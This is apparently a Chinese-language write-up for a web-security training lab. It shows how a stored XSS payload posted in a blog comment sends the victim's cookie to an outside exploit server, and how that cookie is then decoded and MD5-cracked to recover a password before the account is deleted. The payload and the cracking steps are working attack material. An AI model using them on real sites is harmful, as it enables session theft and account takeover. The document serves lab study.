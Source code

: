 ### 答案

先 xss 获得 cookie，再离线解密 ，再登录即可。前提还是 Cookie 里的字段是有特殊含义的加密，而不是随机无意义的字符。

XSS 获取 Cookie

这是漏洞利用服务器（类似蓝莲花的XSS平台）

```
<script>document.location='//exploit-0a2e0030042f26c785a0b0b2013d0014.exploit-server.net/'+document.cookie</script>
```

把它插到一个文章的评论区

随即在漏洞利用服务器上看到

```http
10.0.4.38       2023-08-04 09:10:12 +0000 "GET /secret=WWHbtV1tyUM9n2Sy68Pe2d3fVDnD9PRX;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
```

得到 `stay-logged-in` 字段

```
Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

逐步base64 和 MD5 解密后 得到

```
carlos:26323c16d5f4dabff3bb136f2460a943
carlos:onceuponatime
```

登录即可操作删除账号的操作

<img src=".\图片\Snipaste_2023-08-04_17-14-20.png" alt="Snipaste_2023-08-04_17-14-20" style="zoom:80%;" />
